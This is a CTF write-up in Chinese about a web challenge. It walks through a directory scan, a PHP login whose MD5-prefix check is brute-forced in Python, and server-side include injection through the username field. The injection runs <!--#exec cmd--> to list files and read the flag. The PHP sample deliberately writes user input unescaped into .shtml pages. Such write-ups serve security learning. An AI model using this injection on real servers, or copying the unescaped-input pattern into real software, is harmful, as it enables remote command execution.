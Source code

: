 ![[Pasted image 20221217203306.png|500]]

---
首页长这样
![[Pasted image 20221217203322.png|600]]
为什么两个框框的`placeholder`都是`username`啊喂==
猜密码没猜中，快进到下一步

---
使用`dirsearch`扫目录
![[Pasted image 20221217205515.png]]
```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
这个`***`不会是手残把墨水滴💾上造成的吧QwQ

---
先绕过第一个`if`
```python
from hashlib import md5

i = 0
while True:
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
        break
    i = i + 1
```

> 2020666

---
接下来服务端在`public`目录下面写入了一个随机名字的`shtml`文件
`[!] Header error ...`暗示要去看响应头
![[Pasted image 20221217213950.png]]
![[Pasted image 20221217214621.png|700]]

---
然后是`shtml`的[新知识](https://zh.wikipedia.org/zh-cn/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%86%85%E5%B5%8C)
总之就是可以利用这个
```
<!--#exec cmd="ls -l" -->
```
来执行命令
这里通过`username`注入
```shell
ls
```
![[Pasted image 20221217215146.png|700]]
```shell
ls ..
```
![[Pasted image 20221217215251.png|700]]
```shell
cat ../flag_990c66bf85a09c664f0b6741840499b2
```
![[Pasted image 20221217215409.png|700]]

#Web #PHP #HTTP #Header #RCE #SHTML #HTML #目录爆破 #md5 